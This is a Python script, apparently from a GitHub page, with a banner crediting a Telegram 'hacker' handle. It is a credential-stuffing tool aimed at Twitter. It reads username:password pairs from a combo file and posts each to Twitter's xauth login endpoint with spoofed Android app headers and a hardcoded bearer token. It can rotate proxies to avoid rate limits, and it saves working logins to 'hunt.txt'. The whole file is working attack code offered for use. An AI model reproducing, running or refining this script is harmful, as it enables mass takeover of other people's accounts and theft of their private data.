 # test1
from time import sleep import os,random try:     import requests except:     os.system('pip install requests')     import requests  try:     from colorama import Fore,Style except:     os.system('pip install colorama')     from colorama import Fore,Style   try:     os.system('color') except:     pass R = Fore.RED G = Fore.GREEN Y = Fore.YELLOW os.system('cls' if os.name == 'nt' else 'clear')  hunt = 0  error = 0 bad = 0  banner = (G+""" \033[1;92m                                                                              \033[1;97m------------------------------------------------------ TELEGRAM CHANEEL : @HACKFACBOOK2 TELEGRAM : @bekashacker HACK BY @bekashacker \033[1;97m---------------------------------------------------------------                                                            """) print(banner) def Guess_without_proxies(user,pasw):     global hunt,error,bad,banner     try:         print(Y+f'[-] {user}:{pasw}')         token_url = 'https://api.twitter.com/1.1/guest/activate.json'         token_hed = {             'User-Agent': 'TwitterAndroid/8.87.0-release.01 (28870001-r-1) SM-G935F/7.1.2 (samsung;SM-G935F;samsung;SM-G935F;0;;1;2012)',             'Authorization': 'Bearer AAAAAAAAAAAAAAAAAAAAAFXzAwAAAAAAMHCxpeSDG1gLNLghVe8d74hl6k4%3DRUMF4xAQLsbeBhTSRrCiQpJtxoGWeyHrDb5te2jpGskWDFW82F',         }         get_token = requests.post(token_url,headers=token_hed).json()['guest_token']         url = "https://api.twitter.com/auth/1/xauth_password.json"         head = {             'Cache-Control': 'no-store',             'X-B3-TraceId': 'bc35545e2885cf69',             'OS-Security-Patch-Level': '2017-10-05',             'X-Twitter-Client-Flavor': '',             'User-Agent': 'TwitterAndroid/8.87.0-release.01 (28870001-r-1) SM-G935F/7.1.2 (samsung;SM-G935F;samsung;SM-G935F;0;;1;2012)',             'Accept-Encoding': 'gzip, deflate',             'X-Twitter-Client-AdID': '143f8c1d-0dab-495e-bdba-6b8f3216d92f',             'Timezone': 'Asia/Shanghai',             'X-Twitter-Client-Limit-Ad-Tracking': '0',             'X-Twitter-Client-DeviceID': 'c0575264c704f9c6',             'X-Twitter-Client': 'TwitterAndroid',             'X-Twitter-Client-Language': 'ar-EG',             'X-Twitter-API-Version': '5',             'att': '1-p8YDwE1eClUMxxzR8MHgZpnUFyhpILYjFUzExuRI',             'Optimize-Body': 'true',             'X-Twitter-Active-User': 'yes',             'X-Twitter-Client-Version': '8.87.0-release.01',             'X-Guest-Token': f'{get_token}',             'X-Client-UUID': 'f55fe15f-b1f4-4406-9dd7-e0eb18b841ec',             'Accept': 'application/json',             'Authorization': 'Bearer AAAAAAAAAAAAAAAAAAAAAFXzAwAAAAAAMHCxpeSDG1gLNLghVe8d74hl6k4%3DRUMF4xAQLsbeBhTSRrCiQpJtxoGWeyHrDb5te2jpGskWDFW82F',             'Accept-Language': 'ar-EG',             'Content-Type': 'application/x-www-form-urlencoded',             'Content-Length': '140',             'Host': 'api.twitter.com',             'Connection': 'close',             'Cookie': 'personalization_id=v1_PV0kGHiFp5r175R1KzBEzg==; guest_id=v1%3A161752602861069129'         }          data = {             'x_auth_identifier': user,             'x_auth_password': pasw,             'send_error_codes':'true',             'x_auth_login_challenge':'1',             'x_auth_login_verification':'1',             'ui_metrics': ''         }         sleep(0.2)         login = requests.post(url,headers=head,data=data).text         if 'oauth_token' in login:             with open('hunt.txt','a') as dd:                 dd.write(f'{user}:{pasw}\n')             hunt +=1             os.system('cls' if os.name == 'nt' else 'clear')             print(f'{banner}\n[-] Hunt : {hunt}\n[-] Bad : {bad}\n[-] Error : {error}')         else:             bad +=1             os.system('cls' if os.name == 'nt' else 'clear')             print(f'{banner}\n[-] Hunt : {hunt}\n[-] Bad : {bad}\n[-] Error : {error}')     except:         error +=1         os.system('cls' if os.name == 'nt' else 'clear')         print(f'{banner}\n[-] Hunt : {hunt}\n[-] Bad : {bad}\n[-] Error : {error}')   def Guess_with_proxies(user,pasw):     global hunt,error,bad,banner     try:         print(Y+f'[-] {user}:{pasw}')         token_url = 'https://api.twitter.com/1.1/guest/activate.json'         token_hed = {             'User-Agent': 'TwitterAndroid/8.87.0-release.01 (28870001-r-1) SM-G935F/7.1.2 (samsung;SM-G935F;samsung;SM-G935F;0;;1;2012)',             'Authorization': 'Bearer AAAAAAAAAAAAAAAAAAAAAFXzAwAAAAAAMHCxpeSDG1gLNLghVe8d74hl6k4%3DRUMF4xAQLsbeBhTSRrCiQpJtxoGWeyHrDb5te2jpGskWDFW82F',         }         get_token = requests.post(token_url,headers=token_hed).json()['guest_token']          url = "https://api.twitter.com/auth/1/xauth_password.json"         head = {             'Cache-Control': 'no-store',             'X-B3-TraceId': 'bc35545e2885cf69',             'OS-Security-Patch-Level': '2017-10-05',             'X-Twitter-Client-Flavor': '',             'User-Agent': 'TwitterAndroid/8.87.0-release.01 (28870001-r-1) SM-G935F/7.1.2 (samsung;SM-G935F;samsung;SM-G935F;0;;1;2012)',             'Accept-Encoding': 'gzip, deflate',             'X-Twitter-Client-AdID': '143f8c1d-0dab-495e-bdba-6b8f3216d92f',             'Timezone': 'Asia/Shanghai',             'X-Twitter-Client-Limit-Ad-Tracking': '0',             'X-Twitter-Client-DeviceID': 'c0575264c704f9c6',             'X-Twitter-Client': 'TwitterAndroid',             'X-Twitter-Client-Language': 'ar-EG',             'X-Twitter-API-Version': '5',             'att': '1-p8YDwE1eClUMxxzR8MHgZpnUFyhpILYjFUzExuRI',             'Optimize-Body': 'true',             'X-Twitter-Active-User': 'yes',             'X-Twitter-Client-Version': '8.87.0-release.01',             'X-Guest-Token': f'{get_token}',             'X-Client-UUID': 'f55fe15f-b1f4-4406-9dd7-e0eb18b841ec',             'Accept': 'application/json',             'Authorization': 'Bearer AAAAAAAAAAAAAAAAAAAAAFXzAwAAAAAAMHCxpeSDG1gLNLghVe8d74hl6k4%3DRUMF4xAQLsbeBhTSRrCiQpJtxoGWeyHrDb5te2jpGskWDFW82F',             'Accept-Language': 'ar-EG',             'Content-Type': 'application/x-www-form-urlencoded',             'Content-Length': '140',             'Host': 'api.twitter.com',             'Connection': 'close',             'Cookie': 'personalization_id=v1_PV0kGHiFp5r175R1KzBEzg==; guest_id=v1%3A161752602861069129'         }          data = {             'x_auth_identifier': user,             'x_auth_password': pasw,             'send_error_codes':'true',             'x_auth_login_challenge':'1',             'x_auth_login_verification':'1',             'ui_metrics': ''         }         prox = open('proxies.txt', 'r').read().splitlines()         rprox = str(random.choice(prox))         proxies = {'http':'http://{}'.format(rprox), 'https':'https://{}'.format(rprox)}         login = requests.post(url,headers=head,data=data,proxies=proxies,timeout=8).text         if 'oauth_token' in login:             with open('hunt.txt','a') as dd:                 dd.write(f'{user}:{pasw}\n')             hunt +=1             os.system('cls' if os.name == 'nt' else 'clear')             print(f'{banner}\n[-] Hunt : {hunt}\n[-] Bad : {bad}\n[-] Error : {error}')         else:             bad +=1             os.system('cls' if os.name == 'nt' else 'clear')             print(f'{banner}\n[-] Hunt : {hunt}\n[-] Bad : {bad}\n[-] Error : {error}')     except:         error +=1         os.system('cls' if os.name == 'nt' else 'clear')         print(f'{banner}\n[-] Hunt : {hunt}\n[-] Bad : {bad}\n[-] Error : {error}')    action = input(Y+""" [1] CRACK BA PROXIES [2] CRACK BA PROXIES PRO  [3] YAKYAN HALBZHERA : """) if action == '2':     for acc in open('combo.txt','r').read().splitlines():         try:             user = acc.split(':')[0]             pasw = acc.split(':')[1]             Guess_with_proxies(user,pasw)         except:             pass  else:     for account in open('combo.txt','r').read().splitlines():         try:             user = account.split(':')[0]             pasw = account.split(':')[1]             Guess_without_proxies(user,pasw)         except:             pass
